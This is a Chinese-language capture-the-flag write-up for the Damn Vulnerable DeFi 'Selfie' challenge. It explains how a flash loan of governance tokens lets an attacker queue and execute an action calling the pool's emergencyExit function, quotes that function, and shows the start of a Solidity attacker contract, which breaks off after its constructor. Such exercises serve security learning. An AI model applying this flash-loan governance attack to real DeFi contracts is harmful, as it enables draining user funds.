 ## Challenge 6 - Selfie

### 合约

- SimpleGovernance：治理代币合约，实现ISimpleGovernance接口，可以预先设置action，在两天后可以执行此action
- SelfiePool：实现IERC3156FlashLender，提供闪电贷，包括ERC20Snapshot和SimpleGovernance两种token

### 测试

- 部署DamnValuableTokenSnapshot，SimpleGovernance合约
- 部署SelfiePool合约，向pool中转入token，数目为TOKENS_IN_POOL
- 对token执行一次快照，当前pool中余额和最大供闪电贷额度均为TOKENS_IN_POOL
- 执行攻击脚本
- 期望player账户token余额为TOKENS_IN_POOL，pool账户token余额为0

### 题解

本题的目的就是取走pool中的全部token，在pool合约中有`emergencyExit` 函数

可以看到，只要满足`onlyGovernance` 条件，即可转走当前合约内的任意数目token

```solidity
function emergencyExit(address receiver) external onlyGovernance {
        uint256 amount = token.balanceOf(address(this));
        token.transfer(receiver, amount);

        emit FundsDrained(receiver, amount);
    }
```

`onlyGovernance` 要求调用方必须是`SimpleGovernance`合约，我们又知道在`SimpleGovernance`

合约中提供了设置action和执行action的方法，在设置action的参数中就包括了target和calldata这样的合约调用参数

因此完整的调用流程如下所示：

![image](https://pic.imgdb.cn/item/654e685ac458853aef7b6dce.jpg)


首先通过调用攻击合约，实施闪电贷获得goveranceToken，再去SimpleGoverance中记录一个action，填入的目标方法就是调用pool的emergencyExit

待两天后，通过主动执行action来转移出pool的全部token

代码如下：

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {SelfiePool, SimpleGovernance, DamnValuableTokenSnapshot} from "../../src/selfie/SelfiePool.sol";
import "openzeppelin-contracts/contracts/interfaces/IERC3156FlashBorrower.sol";


contract SelfiePoolAttacker is IERC3156FlashBorrower{
    SelfiePool pool;
    SimpleGovernance governance;
    DamnValuableTokenSnapshot token;
    address owner;
    uint256 actionId;

    constructor(address _pool, address _governance, address _token){
        owner = msg.sender;
        pool = SelfiePool(_pool);
        governance = SimpleGovernance(_governance);
        token = DamnValuableTokenSnapshot(_token);
    }

```